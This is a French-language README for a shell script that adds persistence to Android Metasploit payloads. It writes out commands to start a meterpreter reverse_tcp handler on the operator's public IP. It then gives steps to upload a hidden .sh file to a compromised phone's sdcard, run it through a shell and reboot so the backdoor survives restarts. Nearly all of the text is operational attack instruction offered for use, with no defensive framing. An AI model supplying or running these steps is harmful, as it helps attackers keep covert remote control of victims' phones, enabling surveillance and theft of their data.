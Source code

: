 # **<center>Msf Persistance Android</center>**


**INTRODUCTION**

*Script qui permet d'ajouter la persistance aux payload android avec msf*


**UTILISATION**

1 - Mettez le script msf-persistance-android.sh dans votre dossier personnel et renommez le .sh

2 - Ouvrir MSF

    use exploit/multi/handler
    set payload android/meterpreter/reverse_tcp
    set lhost VOTRE IP PUBLIC
    set lport LE PORT DE VOTRE CHOIX
    exploit

3 - Copier / coller dans un terminal en console msf avec une session android :

    cd /
    cd sdcard
    upload ~/.sh
    shell
    cd /
    cd sdcard
    sh .sh
    reboot
    exit


**LICENSE**

[![GPLv3+](http://gplv3.fsf.org/gplv3-127x51.png)](https://github.com/oda-alexandre/msf-persistance-android/blob/master/LICENSE)
